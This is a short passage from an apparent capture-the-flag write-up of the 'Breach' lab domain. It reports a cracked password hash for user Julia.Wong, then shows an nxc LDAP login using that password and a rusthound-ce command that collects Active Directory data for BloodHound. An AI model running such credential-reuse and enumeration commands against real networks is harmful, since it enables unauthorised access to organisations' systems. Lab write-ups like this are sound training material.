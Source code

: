 ![image.png](/assets/images/Breach_VL/image%2014.png)

Successfully cracked the hash for **Julia.Wong**

### Authentication as Julia.Wong

Lets now attempt the authentication 

```bash
nxc ldap breach.vl -u 'julia.wong' -p 'Computer1'
```

![image.png](/assets/images/Breach_VL/image%2015.png)

Lets enumerate more with this domain account.

### Bloodhound

Lets gather data of the domain using rusthound as the ingestor.

```bash
rusthound-ce -d breach.vl -u 'julia.wong' -p 'Computer1' -c All -z
```
